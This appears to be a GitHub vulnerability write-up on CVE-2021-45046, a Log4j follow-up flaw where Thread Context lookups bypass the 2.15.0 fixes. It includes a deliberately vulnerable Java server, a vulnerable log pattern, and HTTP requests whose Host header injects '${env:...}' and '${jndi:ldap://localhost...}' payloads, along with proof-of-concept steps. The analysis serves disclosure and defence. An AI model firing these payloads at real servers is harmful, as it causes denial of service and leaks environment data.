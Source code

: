# Log4Shell RCE

### *Vulnerability Analysis Report - Follow Up(s)*

## Introduction

There is a critical 0-day vulnerability reported in Log4j versions ```2.0 <= Log4j <= 2.14.1```. It is tracked as ```CVE-2021-44228```. See my detailed analysis report on that CVE at [Log4Shell RCE - CVE-2021-44228 analysis report](https://github.com/sschakraborty/SecurityPOC/tree/main/log4shell).

Understanding the above CVE is a pre-requisite to understanding these follow-up Denial-of-Service (DoS) vulnerabilities that were reported after it. These vulnerabilities are tracked as ```CVE-2021-45046``` and in Apache's JIRA [LOG4J2-3230](https://issues.apache.org/jira/browse/LOG4J2-3230).


## Affected Versions

The vulnerability is related to a Log4j 2 feature called *Lookups*. *Lookups* are available only in **Log4j 2** (version 2.x) and not in **Log4j** (version 1.x). For more information on *Lookups* visit [Log4j 2 Lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html).

```CVE-2021-45046``` was patched in Log4j version ```2.16.0``` by removing the lookup feature entirely. The bug [LOG4J2-3230](https://issues.apache.org/jira/browse/LOG4J2-3230) has been fixed in version ```2.17.0```.

It's recommended for Log4j core dependencies to be upgraded to versions ```2.17.0``` or above.

## ```CVE-2021-45046```

1. [MITRE Report](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45046)
2. [National Vulnerability Database](https://nvd.nist.gov/vuln/detail/CVE-2021-45046)
3. [SSA-661247: Apache Log4j Vulnerabilities - Impact to Siemens Products](https://cert-portal.siemens.com/productcert/pdf/ssa-661247.pdf)
4. [Apache's JIRA issue](https://issues.apache.org/jira/browse/LOG4J2-3221)


# The Vulnerability

## Facts

The previous vulnerability ```CVE-2021-44228``` was fixed in version ```2.15.0``` by making best-efforts in restricting the JNDI lookups to localhost. In version ```2.15.0```, JNDI lookups to any remote service will fail with the message ```WARN Attempt to access ldap server not in allowed list```.

An additional point to note here is that the flag ```-Dlog4j2.formatMsgNoLookups=true``` or environment variable ```LOG4J_FORMAT_MSG_NO_LOOKUPS``` used for disabling lookups in message patterns, works only for messages sent to logger. This flag does not apply to other pattern layout meta-variables present in configuration.

For example, the Thread Context lookup meta-variable (```$${ctx:...}```) in pattern ```%d %p %C{1.} [%t] Hostname: $${ctx:hostName} Message: %m %n``` won't be affected by the above flag. Those values will still be evaluated and dumped into logs.

For complete background of the above discussions, see [Log4Shell RCE - CVE-2021-44228 analysis report](https://github.com/sschakraborty/SecurityPOC/tree/main/log4shell).


## JNDI Injection (DoS)

Consider the following Java code:

```java
import io.vertx.core.AbstractVerticle;
import io.vertx.core.Promise;
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
import org.apache.logging.log4j.ThreadContext;

public class MainVerticle extends AbstractVerticle {
    private static final Logger logger = LogManager.getLogger(MainVerticle.class);

    @Override
    public void start(Promise<Void> startPromise) {
        vertx.createHttpServer().requestHandler(request -> {

            // Set a ThreadContext variable "hostName"
            ThreadContext.put("hostName", request.host());

            // Invoke logger
            logger.info("Received a connection!");

            request.response().putHeader("content-type", "text/plain").end("Hello World!");
        }).listen(8888, http -> {
            if (http.succeeded()) {
                logger.info("HTTP server started on port 8888");
                startPromise.complete();
            } else {
                logger.error("HTTP server started on port 8888");
                startPromise.fail(http.cause());
            }
        });
    }
}
```

This code extracts the hostname from the HTTP request and sets it into the current thread's Log4j ```ThreadContext``` with key ```hostName```. Combined with the following pattern in any Log4j appender, the mitigations made in Log4j ```2.15.0``` are rendered useless.

```properties
appender.rolling.layout.pattern=%d %p %C{1.} [%t] Hostname: $${ctx:hostName} Message: %m %n
```
Even if the message lookups are disabled using the flag mentioned above, an attacker can inject meta-variables in ```Host: ...``` field of HTTP request and Log4j will evaluate them.

For example:

```text
GET /helloWorld HTTP/1.1
Host: ${env:SESSION_MANAGER}
Origin: https://pi.local:8888
```

will result in the following log being dumped:

```text
Hostname: local/unix:@/tmp/.ICE-unix/1804,unix/unix:/tmp/.ICE-unix/1804 Message: Received a connection!
```

irrespective of whether message lookups are disabled or not.

Therefore, JNDI payloads can be injected as well. However, due to the previously mentioned fact that Log4j ```2.15.0``` makes best-effort attempt to stop remote JNDI calls, an attacker (probably!) won't be able to make calls to remote server. All JNDI calls will be restricted to localhost.

But what happens if the JNDI call is made to the vulnerable web server itself?

For example, the above web server listens to port ```8888``` and the following HTTP request
```text
GET /helloWorld HTTP/1.1
Host: ${jndi:ldap://localhost:8888/foo/bar}
Origin: https://pi.local:8888
```
is sent to the server. This will trigger a JNDI lookup to the web server itself and there's nothing restricting the request as it is made to a local address (and not a remote one)! This will lead to arresting the thread that tries to process this HTTP request. Sending multiple such requests to the web server will eventually lead to arresting all threads in the thread-pool and consequently Denial-of-Service.

### The Arrest

Since the JNDI request, received by the web server, is not a complete and compliant HTTP request, the server never returns a response. And the JNDI lookup client that Log4j uses is a synchronous / blocking client. The client keeps waiting indefinitely for a response and never receives one. Therefore, the thread never exits.

### Exploit PoC

Follow the steps to get a PoC setup working. First step is to run a vulnerable web server:

1. Clone this repo ```git clone https://github.com/sschakraborty/SecurityPOC.git```
2. Change current directory into *log4shell_2* - ```cd log4shell_2```
3. Build using Maven - ```mvn clean package -D skipTests```
4. Run the vulnerable web server fat JAR - ```java -Dlog4j2.formatMsgNoLookups=true -jar target/log4shell_2-1.0.0-SNAPSHOT-fat.jar```
5. This web server will be listening on port ```8888``` and will be appending logs into two appenders. One appender is the console appender, which is not vulnerable as Thread Context lookup is not present in default pattern configuration. The other one is the rolling file appender which is vulnerable as ```%d %p %C{1.} [%t] Hostname: $${ctx:hostName} Message: %m %n``` is set as the pattern configuration and hostname is under attacker's control.

The rolling file appender logs into ```target/rolling/rollingtest.log```.

The next step is to simply execute the Python 3 exploit script as ```python3 exploit/exploit.py```. You should see that the server's thread is blocked forever and does not exit (The server will be logging warnings for being blocked. This is a feature in Vert.x framework). The Python 3 client will exit after some time because of timeout but the server thread will continue to be blocked.

**Note:** The blocked server cannot be terminated using ```Ctrl + C``` signal. Try ```sudo kill -9 <PID>```.


# Remediation

Upgrade Log4j to a version ```2.17.0``` or above.

The DoS vulnerability is solved in the Log4j version ```2.16.0``` by removing the lookup feature entirely. The call to resolve / evaluate the lookup meta-variables, has been removed. Therefore, Log4j version ```2.16.0``` or above will not resolve anything resembling ```${...}``` or ```$${...}```.